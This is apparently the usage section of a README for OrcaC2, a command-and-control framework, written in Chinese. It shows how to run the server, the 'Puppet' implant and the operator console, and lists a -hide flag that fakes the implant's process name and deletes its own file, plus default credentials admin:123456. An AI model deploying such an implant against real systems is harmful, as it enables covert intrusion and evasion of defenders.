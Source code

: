 

## 使用

### Orca_Server端

存在配置文件(`./conf/app.ini`)与数据库文件(`./db/team.db`、`./qqwry.dat`)的情况下双击即可运行



### Orca_Puppet端

```console
Orca_Puppet.exe -host <Server端IP:端口> -debug -hide
```

参数说明：

- -host:     连接到Server端的地址，默认为127.0.0.1:6000
- -debug:    打开调试信息，默认为false
- -hide:     在Linux系统下可以伪造进程名，并删除自身程序文件



### Orca_Master端

```console
Orca_Master.exe -u <用户名> -p <密码> -H <Server端IP:端口>
```

参数说明：

- -u | --username:     连接到Server端的用户名
- -p | --password:    连接到Server端的密码
- -H | --host:    连接到Server端的地址，默认为127.0.0.1:6000

> Server端数据库中默认的用户名和密码为 admin:123456



连接成功：

```console
C:\Users\blood\Desktop\OrcaC2\out\master>Orca_Master.exe -u admin -p 123456 -H 127.0.0.1:6000
OrcaC2 Master 0.10.0
                                ,;;;;;;,
                           {;g##7    9####h;;;;,,
                         {E777777779###########F7'
                        ~`           7##########;
                        <:_           "##########h
                         -(:__          VG#3######,
                          ~-=:=:=:__     -""d#####]
                              ~--====_      {Q####]
                           {;;,   ~-<=:     l#####
                            9###.   ~==:   {Q###F'
                            g###h,  =::` {a####7
                        ;;;########gss;g####P7
                        7777777777G###7777'


                ;g77h;    lE779;    {;P79]      g#,
               l#    #]   lE;;gF    #]         gLJ#,
                7N;;F7    l# "9h    "7L;g]    gF777#,
                                                       by: Ptkatz

2022/09/24 00:03:01 [*] login success
Orca[admin] » help

OrcaC2 command line tool

Commands:
```